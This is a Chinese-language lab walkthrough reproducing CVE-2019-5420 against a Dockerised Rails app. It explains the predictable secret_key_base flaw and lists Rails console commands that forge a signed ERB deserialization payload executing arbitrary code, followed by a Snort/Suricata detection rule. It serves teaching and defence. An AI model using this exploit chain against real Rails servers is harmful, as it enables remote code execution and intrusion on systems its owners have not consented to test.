


# 0x0 前言
### CVE-2019-5420 Description  
A remote code execution vulnerability in development mode **Rails <5.2.2.1**, <6.0.0.beta3 can allow an attacker to **guess** the automatically generated development mode **secret token**. This secret token can be used in combination with other Rails internals to escalate to a remote code execution exploit.


### Ruby on Rails
Ruby on Rails is a **server-side web application framework written in Ruby**. It is a model-view-controller (MVC) archtecture, providing default structures for a database, a web service, and web pages. It is also a popular choice of framework among well known services and products such as Github, Bloomberg, Soundcloud, Groupon, Twitch.tv, and of course, Rapid7s Metasploit.

### 原理簡介
此漏洞是來自Rails一個想要提升安全性的功能，此功能原意應該是將欲執行的程式碼物件透過金鑰加密，最後再解密回來，但反而帶來了漏洞。原因如下程式碼，當Rails位於test或development模式時，secret_key_base為secrets.secret_key_base，若為False則為Digest::MD5.hexdigest(self.class.name)，但secrets來自一檔案，而**該檔案預設是不存在的**，因此**secret_key_base永遠都來自Digest::MD5.hexdigest(self.class.name)**這個以class name得到的key；換而言之，secret_key_base只要**知道class name就是固定的**。而Rails在web上有一功能可接收加密後的程式碼物件並執行，因此只要利用secret_key_base為固定的特性即可偽造並執行任意程式碼。
```ruby
def secret_key_base
  if Rails.env.test? || Rails.env.development?
    secrets.secret_key_base || Digest::MD5.hexdigest(self.class.name)
```

* ()內為測試時使用之環境
* <>為可變動或需視使用環境變動的欄位
* `斜體字`為指令

# 0x1 前置需求
* 虛擬機軟體 (VMware Workstation 15.5.7)
* 攻擊機 (Ubuntu 20.04)
* 受攻擊機 (Ubuntu 20.04)

# 0x2 受攻擊機環境建置
### 安裝docker及受害環境image
1. `sudo snap install docker`，安裝docker
2. `sudo docker pull knqyf263/cve-2019-5420`，下載image
3. `sudo docker run --name cve-2019-5420 --rm -p 3000:3000 knqyf263/cve-2019-5420`，建立並運行container於port 3000 (--rm會在結束運行後自動刪除container)

### 新開Terminal，進行設定信任網域
> 若未設定就攻擊，會於原docker terminal看到deny攻擊機IP的訊息
4. `sudo docker exec -it cve-2019-5420 bash`，在container內執行bash以取得shell
5. `vi config/environments/development.rb`，設定網域 

        #於任意位置加入以下程式碼
        class Application < Rails::Application
            config.web_console.whitelisted_ips = '<攻擊機IP>'
        end

6. `gem update --system`，更新bundler，否則會得到報錯 You must use Bundler 2 or greater with this lockfile. (Bundler::LockfileError)
7. `rails restart`，重開Rails使whitelist設定生效

# 0x3 攻擊機環境建置
> 攻擊機實際上使用任何可以裝Rails <5.2.2.1的虛擬機都可以，但該版本不好裝，故此處與受攻擊機一併使用同一docker環境  

### 設定加密secret_key_base class name
1. `bundle exec rails console`，進入Rails development console  


2. `app_class_name = VerifierRce::Application.name`  


3. `secret_key_base = Digest::MD5.hexdigest(VerifierRce::Application.name)`  


4. `key_generator = ActiveSupport::CachingKeyGenerator.new(ActiveSupport::KeyGenerator.new(secret_key_base, iterations: 1000))`  


5. `secret = key_generator.generate_key("ActiveStorage")`  


6. `verifier = ActiveSupport::MessageVerifier.new(secret)`  


### 建立用於執行程式碼的ERB物件並加密之
7. ``code = '`touch /bin/rce`'``，任意程式碼  


8. `erb = ERB.allocate`  


9. `erb.instance_variable_set :@src, code`  


10. `erb.instance_variable_set :@filename, "1"`  


11. `erb.instance_variable_set :@lineno, 1`  


12. `dump_target  = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new erb, :result`  


13. `verifier.generate(dump_target, purpose: :blob_key)`，產生payload  


### Exploit
14. 開啟瀏覽器，於網址列輸入`http://<受害機IP>:3000/rails/active_storage/disk/<payload>/test`  
> 前圖為執行前，後圖為執行後




# 0x4 Snort/Suricata Rule
1. alert tcp $EXTERNAL_NET any -> $HOME_NET [$HTTP_PORTS,3000] (msg:"SERVER-WEBAPP Ruby on Rails Active Storage deserialization remote code execution attempt"; flow:to_server,established; content:"/rails/active_storage/disk"; fast_pattern:only; content:"IkJBaHZPa0JCWTNScGRtVlRkWEJ3YjNKME9qcEVaWEJ5WldOaGRHbHZiam82UkdWd2NtVmpZWFJsWkVsdWMzUmhibU5sVm1GeWFXRmliR1ZRY205NGVR"; metadata:policy max-detect-ips drop, policy security-ips drop, service http; reference:cve,2019-5420; reference:url,weblog.rubyonrails.org/2019/3/13/Rails-4-2-5-1-5-1-6-2-have-been-released/; classtype:attempted-user; sid:50504; rev:1;)

# 0x5 Reference
* https://github.com/knqyf263/CVE-2019-5420
* https://hackerone.com/reports/473888
* https://gist.github.com/atxsinn3r/0c8647901452de4256a0b1ca30378296
* https://stackoverflow.com/questions/29417328/how-to-disable-cannot-render-console-from-on-rails
* https://github.com/jekyll/jekyll/issues/7463
* https://stackoverflow.com/questions/30853247/how-do-i-edit-a-file-after-i-shell-to-a-docker-container
